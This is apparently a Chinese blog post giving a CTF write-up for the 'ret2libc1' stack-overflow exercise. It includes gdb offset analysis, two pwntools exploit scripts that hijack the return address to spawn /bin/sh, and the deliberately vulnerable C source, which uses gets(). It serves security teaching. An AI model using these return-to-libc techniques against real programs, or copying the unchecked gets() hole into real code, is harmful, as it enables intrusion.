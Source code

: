 ```yaml
---
layout:     post
title:      ret2libc1
subtitle:   解题思路
date:       2018-07-06
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida

程序下载



分析程序，发现main函数中存在gets函数有溢出

![image-20180911173621421](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094637.png)



利用gdb定位溢出点，第113个字符开始覆盖ret返回地址

![image-20180911174258124](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094302.png)



确定返回地址

观察ida反编译结果，发现程序中存在system函数，但是它不是直接执行的system('/bin/sh')命令，而是system('/shell!?')，所以我们需要找到 ‘/bin/sh’ 字符串传到system函数中

![image-20180911174427074](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094645.png)



寻找/bin/sh字符串位置

![image-20180911202516403](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-122519.png)



找到rodata段中定义的/bin/sh字符串

![image-20180911202553281](https://ws2.sinaimg.cn/large/0069RVTdgy1fv5vf8vf5gj31b603wwfo.jpg)



所以这里就有两种思路，第一种通过plt表调用system函数，第二种通过跳转到程序中call system这句指令的地址来执行system('/bin/sh')



exp1.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')
elf = ELF('./ret2libc1')

system_addr = elf.plt['system']
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + 'b'*4 + p32(binsh_addr))


sh.interactive()
```

执行结果

![image-20180911202735712](https://ws3.sinaimg.cn/large/0069RVTdgy1fv5vh67gfwj313o0d8dih.jpg)



exp2.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')

system_addr = 0x08048611   #call system 指令的地址
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + p32(binsh_addr))
sh.interactive()
```



执行结果：

![image-20180911203302487](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-123336.jpg)



ret2libc1源代码

```c
ret2libc1.c

#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```

